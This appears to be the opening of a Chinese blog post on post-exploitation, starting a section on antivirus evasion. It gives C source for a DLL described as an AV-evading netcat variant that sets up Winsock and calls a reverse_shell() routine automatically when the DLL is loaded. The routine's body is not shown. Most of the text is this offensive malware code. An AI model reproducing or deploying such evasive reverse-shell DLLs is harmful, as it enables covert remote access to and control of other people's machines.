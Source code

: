 ```yaml
---
layout:     post
title:      后渗透详细篇
date:       2019-1-23
author:     Wh0ale
header-img: img/1.jpg
catalog: true
tags:
    - 后渗透
---
```


# 0x01 免杀技术



## 一、dll 免杀

dll nc 免杀版本

```c
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "stdafx.h"
#include <winsock2.h>  
#include <stdlib.h>

#pragma comment(lib,"ws2_32")
void reverse_shell();
WSADATA wsaData;
SOCKET Winsock;
SOCKET Sock;
struct sockaddr_in hax;

STARTUPINFO ini_processo;
PROCESS_INFORMATION processo_info;



BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{


        switch (dwReason)
        {
        case DLL_PROCESS_ATTACH:
                reverse_shell();
                break;

        case DLL_PROCESS_DETACH:

                break;

        case DLL_THREAD_ATTACH:

                break;

        case DLL_THREAD_DETACH:

                break;
        }
        return TRUE;
}

```